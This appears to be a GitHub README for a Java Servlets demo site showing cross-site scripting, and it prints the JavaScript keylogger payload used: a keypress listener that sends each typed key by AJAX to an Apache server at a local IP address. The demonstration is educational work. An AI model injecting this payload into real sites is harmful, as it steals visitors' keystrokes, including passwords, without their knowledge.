 # XSS-Demo
I made this website using *Java Servlets* for giving a demo of **XSS and its dangers**.

I hosted the website on my **Tomcat** Server and used **Apache** for **Keylogging**.

![XSS](https://github.com/Miraj50/XSS-Demo/blob/master/XSS_Demo.gif)

The *payload* used for Keylogging:
```
document.addEventListener('keypress', function() {
	console.log(arguments[0].key); /*Testing*/
	$.ajax({
		type: 'GET',
		url: 'http://192.168.0.105', /*apache*/
		data: { 
			'key': arguments[0].key, 
		},
	});
});
```
